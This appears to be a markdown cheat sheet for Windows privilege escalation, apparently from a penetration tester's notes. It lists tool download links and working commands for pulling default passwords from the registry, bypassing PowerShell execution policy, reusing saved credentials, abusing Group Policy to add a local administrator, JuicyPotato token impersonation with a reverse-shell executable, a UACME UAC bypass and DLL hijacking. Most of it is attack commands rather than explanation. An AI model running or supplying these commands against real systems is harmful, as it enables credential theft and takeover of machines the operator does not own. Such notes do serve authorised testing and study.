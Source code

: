 # Window Privesc "Source Links"

## PrintSpoofer.exe
- Link
```
https://github.com/itm4n/PrintSpoofer
```

## JuicyPotato
- Link
```
https://github.com/ohpe/juicy-potato
```

## Powerup
- Link
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

powershell -ep bypass
.\PowerUp.ps1
Invoke-PrivescAudit
```

## PrivescCheck
- Link
```
https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1
```

## Powerview
- Link
```
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
```

## SharpHound
- Link
```
https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1
```

## PowerGPOAbuse
- Link
```
https://github.com/rootSySdk/PowerGPOAbuse
https://raw.githubusercontent.com/rootSySdk/PowerGPOAbuse/master/PowerGPOAbuse.ps1
```
- Usage
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName 'noraj' --Author 'vulnnet\administrator' --Command "powershell.exe /c" --Arguments "net localgroup administrators enterprise-security /add" --GPOName "security-pol-vn"
```

## SharpGPOAbuse
- Link
```
wget https://github.com/byronkg/SharpGPOAbuse/raw/main/SharpGPOAbuse-master/SharpGPOAbuse.exe
```
___________________________________________________________________________________________________________________________________________________________________________________________________________________________

# Window Privesc Normal
## PowerUp
- Check Default Username and Password from Registry
```
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\Software\Microsoft\Windows Nt\CurrentVersion\Winlogon" /v AutoAdminLogon
```

- Check the service that current user can modify
```
Get-ModifiableService
```

- Check the unquoted service name
```
Get-ServiceUnquoted
```

## PrivescCheck
- Load ps1 script and run 
```
powershell -ep bypass -c ". .\PrivescCheck.ps1;Invoke-PrivescCheck "
```

- Check window services for user escalating
```AInvoke-ServiceAudit
```

- Check outdated and potentially vulnerable software
```
Invoke-AuditInstalledPrograms
```
## Unattendend Installation Files

- Default File Location
```
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Autounattended.xml
```

## Window Credential Manager (Manual)
- Check Stored Credential
```
cmdkey /list
```

- Login using saved credentials ( can also run malicious shell.exe instead of cmd )
```
runas.exe /savecred /user:administrator cmd
```

## Powershell History
- Check history file location
```
C:\Users\student\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_History.txt
```

## Insecure Service Permissions 
- Check the vulnerable service with PowerUp, AccessChk or metasploit
- Check permissions by ACL or by all means
- Modify the service configuration
- Restart the service
```
Restart-Service -name "Service Name"
```

## Registry Autorun
- Check the auto run file permission
```
Get-Acl -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\run | Format-List
```

## Access Token Impersonation
- Tokens are created and managed by lsass.exe(Local security authority subsystem service)
- Token are generated by winlogon.exe 
- then attached to userinit.exe process
- Two types of token
- Impersonate level Tokens ( on non-interactive logins )
- Delegate level tokens ( on interactive logins )

### Using MSF Incognito
```
load incognito
list_tokens
impersonate_token 
```
# Advanced PrivESC Techniques

### Using Juicy Potato
- leverage vulnerabilites related to DCOM ( Distributed Component Object Model )
- based on potato old attack ( which exploit the behavior of DCOM and RPCs (remote procedure call subsystem))
- DCOM use CLSID to manage communication between different software components
- Attacker create Malcious COM server
- and register it with specific CLSID
- can direct request the malicious COM server
- then they have access to manipulate token used for that process
- then create LOCAL service TOKEN
- use it to impersonate higher privileged context
### Required Privilege for successful attack
- SeAssignPrimaryToken:, SeCreateToken:( for juicy potato )
- SeImpersonatePrivilege: ( Directly impersonate using Incognito )

```
JuicyPotato.exe -t * -l 9999 -p C:\path\to\rev_malware.exe -c CLSID
```
Link For CLSID: https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

## UACME
- Bypass UAC
```
Akagi64.exe 23 malware.exe
```

## DLL Hijacking
- Use Procmon64 to find process that have error to load .dll module as (Name not found)
- find the path of the dll file
- check with
```
Get-Acl "C:\Path\to\dll" | format-list
```
- use payload as .dll
- inject that payload in the path and run the app again
___________________________________________________________________________________________________________________________________________________________________________________________________________________________




